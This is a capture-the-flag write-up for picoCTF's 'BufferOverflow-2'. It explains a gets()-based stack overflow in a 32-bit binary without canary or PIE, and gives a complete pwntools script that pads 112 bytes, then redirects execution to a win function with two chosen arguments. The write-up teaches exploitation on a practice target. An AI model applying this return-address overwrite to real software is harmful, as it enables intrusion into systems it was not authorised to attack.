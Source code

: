 # BufferOverflow-2

Challenge Description:

> Control the return address and arguments and this time you'll need to control the arguments to the function you return to!.

> Hint1 : Try using GDB to print out the stack once you write to it.

## Analyzing code

We see that it is a 32 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled which means the addresses within the binary like the functions will be constant.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped`

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Similar to the previous challenges,gets() is called and the win function requires 2 arguements to print out the flag.
Arg1 = `0xCAFEF00D`
Arg2 = `0xF00DF00D`

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

In 32 bit architecture,arguements are passed using the stack itself unlike in 64 bit which uses registers. So when we overflow using gets,the stack should like shown below....

    Padding(Some no of bytes found using gdb/others)						Lower address
    Win_function_address
    Win_function_return_address(Does not matter in this case)
    Arg1(0xCAFEF00D)
    Arg2(0xF00DF00D)										Higher address


## Finding offset and creating exploit

The offset found was 112 bytes and the script written is shown below.

```python
from pwn import *

elf = ELF("./vuln",checksec=False)
p = elf.process()
#p = remote("saturn.picoctf.net", 50938)

win_function = 0x08049296

padding = b'A'*112

payload = padding
payload += p32(win_function)
payload += p32(0x41414141)	# Where will win return
payload += p32(0xCAFEF00D)
payload += p32(0xF00DF00D)

p.sendline(payload)

p.interactive()
```

Running the above script gives us the flag below

![output of flag when run on the server](flag_output.PNG)
